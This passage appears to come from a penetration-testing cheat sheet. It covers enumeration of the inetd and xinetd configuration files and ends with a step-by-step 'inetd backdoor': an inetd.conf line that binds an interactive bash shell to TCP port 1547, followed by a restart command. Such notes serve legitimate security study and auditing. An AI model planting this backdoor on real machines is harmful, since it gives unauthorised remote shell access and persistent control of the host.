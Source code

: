 The extended Internet services daemon (xinetd) replaced inetd, performing the same function as inetd, but in a more secure manner by providing service-specific configuration options for access control, enhanced logging, binding, redirection, and resource utilization control. Typical xinetd services include Remote Shell (RSH), FTP, telnet, and Post Office Protocol 3 (POP3).

- **cat /etc/inetd.conf/\* 2>/dev/null** - contains a list of network services that tell inetd which ports to listen to and which server programs to run in response to service requests
- **cat /etc/xinetd.conf/\* 2>/dev/null** - sets the number of active servers, specifies logging settings, limits the number of incoming connections, and reads all files in /etc/xinetd.d
- **cat /etc/xinetd.d/\* 2>/dev/null** - contains additional settings, including a disable parameter which is set to yes by default. 

### Example inetd backdoor:
```
Pick an obscure service from /etc/services associated with a tcp port 1024 and above...for example laplink
  laplink         1547/tcp     # laplink

Add the following line to /etc/inetd.conf
  laplink    stream  tcp     nowait  /bin/bash bash -i

restart inetd.conf
  $> killall -HUP inetd

This creates a listener on port tcp/1547 that will shovel you a bash shell. 
```
